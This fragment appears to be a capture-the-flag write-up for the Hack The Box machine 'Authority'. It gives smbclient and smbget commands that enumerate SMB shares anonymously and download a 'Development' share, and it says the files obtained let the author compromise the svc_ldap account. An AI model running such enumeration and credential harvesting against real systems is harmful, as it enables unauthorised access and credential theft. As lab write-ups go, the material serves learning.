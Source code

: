 ```sh
smbclient -U 'user'%'' -N -L  //authority.authority.htb
```
![](images/shares.png)

```sh
smbclient -U 'user'%'' -N //authority.authority.htb/Development
```

![](images/pwm.png)

Okay. We are in the right path. This is form that user can use to change their password
without contacting the IT guys.

![](images/playbook.png)

Downloading everything just to be safe 
```sh
smbget --recursive -U 'user'%'' -v smb://authority.htb.corp/Development 
```

Nice, indeed we were able to compromise the first account svc_ldap using the loot we've
found!

